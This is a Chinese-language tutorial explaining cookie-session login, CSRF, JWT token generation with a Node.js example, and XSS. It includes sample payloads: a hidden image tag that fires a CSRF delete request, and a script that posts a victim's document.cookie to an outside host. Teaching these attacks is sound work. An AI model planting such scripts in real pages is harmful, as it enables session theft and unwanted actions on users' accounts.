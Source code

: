 # JWT和CSRF攻击

web服务中，用户输入用户名密码登入之后，后续访问网站的其他功能就不用再输入用户名和密码了。传统的身份校验机制为`cookie-session`机制：

#### cookie-session机制

- `用户浏览器访问web网站，输入用户名密码`
- `服务器校验用户名密码通过之后，生成sessonid并把sessionid和用户信息映射起来保存在服务器`
- `服务器将生成的sessionid返回给用户浏览器，浏览器将sessionid存入cookie`
- `此后用户对该网站发起的其他请求都将带上cookie中保存的sessionid`
- `服务端把用户传过来的sessionid和保存在服务器的sessionid做对比，如果服务器中有该sessionid则代表身份验证成功`

这种方式存在以下几个问题：

- `代码安全机制不完善，可能存在CSRF漏洞`
- `服务端需要保存sessionid与客户端传来的sessionid做对比，当服务器为集群多机的情况下，需要复制sessionid，在多台集群机器之间共享`
- `如果需要单点登入，则须将sessionid存入redis等外部存储保证每台机器每个系统都能访问到，如果外部存储服务宕机，则单点登入失效`

#### CSRF攻击

- `用户访问A网站(http://www.aaa.com)，输入用户名密码`
- `服务器验证通过，生成sessionid并返回给客户端存入cookie`
- `用户在没有退出或者没有关闭A网站，cookie还未过期的情况下访问恶意网站B`
- `B网站返回含有如下代码的html：`



```html
//假设A网站注销用户的url为：https://www.aaa.com/delete_user
<img src="https://www.aaa.com/delete_user" style="display:none;"/>
```

- `浏览器发起对A网站的请求，并带上A网站的cookie，注销了用户`

#### JWT认证方式

JWT全称 `Json Web Token`，是一个长字符串，由三部分组成：`Header(头部)`、 `Payload(负载)`、`Signature(签名)`，`Header.Payload.Signature`，用`.`分割各部分内容，看起来大概就像下面这样：

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6InhpYW8gamllIiwiYWRtaW4iOnRydWV9.MjcxZGFjMmQzZjNlMzdjMTU0OGZmM2FlNzFjNDkyMDAwODkzZGNiYmFkODc0MTJhYTYzMTE4MmY0NDBhNzkzZA
```

生成过程如下：



```jsx
const crypto = require("crypto");
const base64UrlEncode = require("base64url");
//头部信息
var header = {
    "alg": "HS256", //签名算法类型，默认是 HMAC SHA256（写成 HS256）
    "typ": "JWT" //令牌类型，JWT令牌统一为JWT
};
//负载信息,存储用户信息
var payload = {
    "sub": "1234567890",
    "name": "xiao jie",
    "admin": true
}
//服务器秘钥，用于加密生成signature,不可泄漏
var secret = "chaojidamantou";
//header部分和payload部分
var message = base64UrlEncode(JSON.stringify(header)) + "." + base64UrlEncode(JSON.stringify(payload));
//HMACSHA256加密算法
function HMACSHA256(message, secret) {
    return crypto.createHmac('sha256', secret).update(message).digest("hex");
}
//生成签名信息
var signature = HMACSHA256(message, secret);
//header和payload部分内容默认不加密,也可以使用加密算法加密
var JWT = message + "." + base64UrlEncode(signature);
console.log(JWT);
```

验证过程如下：

- `用户访问网站，输入账号密码登入`
- `服务器校验通过，生成JWT，不保存JWT，直接返回给客户端`
- `客户端将JWT存入cookie或者localStorage`
- `此后用户发起的请求，都将使用js从cookie或者localStorage读取JWT放在http请求的header中，发给服务端`
- `服务端获取header中的JWT，用base64URL算法解码各部分内容，并在服务端用同样的秘钥和算法生成signature，与传过来的signature对比，验证JWT是否合法`

使用JWT验证，由于服务端不保存用户信息，不用做sessonid复制，这样集群水平扩展就变得容易了。同时用户发请求给服务端时，前端使用JS将JWT放在header中手动发送给服务端，服务端验证header中的JWT字段，而非cookie信息，这样就避免了CSRF漏洞攻击。

不过，无论是cookie-session还是JWT，都存在被XSS攻击盗取的风险：

#### XSS攻击

跨站脚本攻击，其基本原理同sql注入攻击类似。页面上用来输入信息内容的输入框，被输入了可执行代码。假如某论坛网站有以下输入域用来输入帖子内容



```html
发帖内容：<textarea rows="3" cols="20"></textarea>
```

而恶意用户在textarea发帖内容中填入诸如以下的js脚本：



```html
今天很开心，学会了JWT
<script>
$.ajax({
  type: "post",
  url: "https://www.abc.com/getcookie",
  data: {cookie : document.cookie}
});
</script>
```

那么当其他用户访问该帖子的时候，用户的cookie就会被发送到abc域名的服务器上了。

为了避免xss攻击，客户端和服务端都应该对提交数据进行xss攻击转义。

参考：https://www.cnblogs.com/wuqiaoqun/p/13129562.html